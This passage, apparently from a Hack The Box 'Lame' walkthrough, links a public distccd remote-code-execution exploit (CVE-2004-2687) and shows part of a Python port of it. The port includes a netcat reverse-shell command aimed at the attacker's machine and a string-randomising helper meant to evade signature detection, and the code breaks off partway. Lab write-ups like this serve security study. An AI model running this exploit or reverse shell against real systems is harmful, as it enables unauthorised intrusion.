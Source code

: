 <br />
Click on the GitHub gist from DarkCoderSc that has an exploit that we can use.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/lame/exploit.png" title="GitHub Exploit" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855">Exploit</a>

<br />
Update the exploit to change the strings that the sockets accept to bytes-like object.  Sockets no longer accept strings.

{% raw %}
```sh
'''
	distccd v1 RCE (CVE-2004-2687)
	
	This exploit is an updated version of the python script here:
		https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855

	Socket takes a bytes-like object and not a string.

	Lame Box (HTB):
		local>nc -lvp 1403

		local>./disccd_exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 1403 -e /bin/sh"	

		Enjoy your shell
'''

import socket
import string
import random
import argparse

'''
	Generate a random alpha num string (Evade some signature base detection?)
'''
def rand_text_alphanumeric(len):
	str = b''
	for i in range(len):
		str += random.choice(string.ascii_letters + string.digits).encode('UTF-8')

	return str

'''
	Read STDERR / STDOUT returned by remote service.
'''
def read_std(s):
	s.recv(4) # Ignore

	len = int(s.recv(8), 16) # Get output length

	if len != 0:
		return s.recv(len)

'''
	Trigger Exploit
'''
def exploit(command, host, port):
    args = ["sh", "-c", command, "#", "-c", "main.c", "-o", "main.o"]

```